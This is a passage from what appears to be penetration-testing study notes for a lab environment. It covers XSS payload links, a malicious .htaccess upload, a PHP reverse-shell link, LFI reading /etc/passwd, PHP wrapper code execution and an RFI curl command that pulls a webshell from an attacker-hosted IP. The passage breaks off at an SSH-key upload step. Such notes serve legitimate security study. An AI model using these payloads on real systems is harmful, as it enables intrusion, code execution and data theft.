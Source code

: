     {
    "detail": "The method is not allowed for the requested URL.",
    "status": 405,
    "title": "Method Not Allowed",
    "type": "about:blank"
    }
    
    ```
- Check cross-site scripting stored or reflected 
    * https://gist.github.com/michenriksen/d729cd67736d750b3551876bbedbe626
    * XSS simple payload : https://swisskyrepo.github.io/PayloadsAllTheThings/XSS%20Injection/#tools
    * XSS Polyglot : https://swisskyrepo.github.io/PayloadsAllTheThings/XSS%20Injection/2%20-%20XSS%20Polyglot/
- .htaccess upload to restrict access to certain files https://swisskyrepo.github.io/PayloadsAllTheThings/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess/
  
  - .htaccess file 
    ```bash
    # .htaccess
    <FilesMatch "\.(php|php5|phtml|html|htm|js|css|exe|pl|py|sh|rb|cgi)$">
    Order Allow,Deny
    Deny from all
    </FilesMatch>

    AddType application/x-httpd-php .htaccess
    ```

### Webshells

- PHP windows reverse shell https://github.com/Dhayalanb/windows-php-reverse-shell

### Web Exploitation

- Local File Inclusion (LFI) to Remote Code Execution (RCE) example (find application config for password, upload webshell, user enumeration, ssh private):
  - `http://<target>/index.php?page=../../../../etc/passwd` – Test for LFI vulnerability. (log poison if possible)
- PHP wrapper
  - Data rapper : `curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"`
  - Php rapper : `curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php`
- Remote File Inclusion (RFI) example:
  - `curl "http://mountaindesserts.com/meteor/index.php?page=http://<attacker ip>/simple-backdoor.php&cmd=ls"` – Host a simple webshell on your machine.
- File upload:
    - upload ssh key to web server
        ```bash
        kali@kali:~$ ssh-keygen
        Generating public/private rsa key pair.
        Enter file in which to save the key (/home/kali/.ssh/id_rsa): fileup
        Enter passphrase (empty for no passphrase): 
        Enter same passphrase again: 
        Your identification has been saved in fileup
        Your public key has been saved in fileup.pub
        ...
